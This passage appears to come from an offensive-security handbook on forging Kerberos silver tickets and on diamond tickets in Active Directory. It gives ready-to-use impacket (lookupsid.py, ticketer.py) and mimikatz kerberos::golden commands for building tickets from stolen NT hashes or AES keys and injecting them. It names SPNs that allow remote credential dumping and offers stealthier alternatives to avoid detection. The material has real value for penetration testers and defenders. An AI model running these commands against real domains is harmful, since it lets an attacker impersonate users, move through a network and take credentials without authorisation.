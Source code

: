 ```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# with an NT hash
python ticketer.py -nthash $NThash -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username

# with an AES (128 or 256 bits) key
python ticketer.py -aesKey $AESkey -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username
```

The SPN (ServicePrincipalName) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations (more info on [adsecurity.org](https://adsecurity.org/?page\_id=183)).
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) can be used to generate a silver ticket. Testers need to carefully choose the right SPN type (cifs, http, ldap, host, rpcss) depending on the wanted usage.

```bash
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](ptt.md#injecting-the-ticket).
{% endtab %}
{% endtabs %}

{% hint style="info" %}
A great, stealthier, alternative is to [abuse S4U2self](delegations/s4u2self-abuse.md) in order to impersonate a domain user with local admin privileges on the target machine by relying on Kerberos delegation instead of forging everything.
{% endhint %}

### Diamond tickets

Since Golden and Silver tickets are fully forged are not preceded by legitimate TGT (`KRB_AS_REQ`) or Service Ticket requests (`KRB_TGS_REQ`), detection rates are quite high. Diamond tickets are an alternative to obtaining similar tickets in a stealthier way.

In this scenario, an attacker that has knowledge of the service long-term key (`krbtgt` keys in case of a TGT, service account keys of Service Tickets) can request a legitimate ticket, decrypt the PAC, modify it, recalculate the signatures and encrypt the ticket again. This technique allows to produce a PAC that is highly similar to a legitimate one and also produces legitimate requests.
